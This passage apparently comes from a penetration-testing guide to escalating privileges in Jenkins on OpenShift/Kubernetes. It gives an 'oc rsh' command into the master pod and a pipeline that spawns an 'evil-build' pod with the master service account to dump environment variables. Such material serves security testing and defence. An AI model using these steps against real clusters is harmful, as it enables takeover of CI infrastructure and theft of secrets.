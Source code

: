 
If this sa has enough permission (such as pod/exec), you can also take control of the whole jenkins instance by executing commands inside the master node pod, if it's running within the same namespace. You can easily identify this pod via its name and by the fact that it must be mounting a PVC (persistant volume claim) used to store jenkins data.

```bash
oc rsh pod_name -c container_name
```

In case the master node pod is not running within the same namespace as the workers you can try similar attacks by targetting the master namespace. Let's assume its called _jenkins-master_. Keep in mind that serviceAccount master-sa needs to exist on the _jenkins-master_ namespace (and might not exist in _worker-ns_ namespace)

```groovy
pipeline { 
    stages {
        stage('Process pipeline') {
            agent {
                kubernetes {
                yaml """
                	metadata:
                		namespace: jenkins-master
                    spec:
                    	serviceAccount: master-sa                 
                        containers:
                        - name: evil-build
                          image: myregistry/mykali_image:1.0
                          imagePullPolicy: IfNotPresent
                          command:
                          - sleep
                          args:
                          - 1d
                """
                }
            }
            stages {
                stage('Say hello') {
                    steps {
                        echo 'Hello from a docker container'
                        sh 'env'
                    }
                }
            }
        }
    }
}
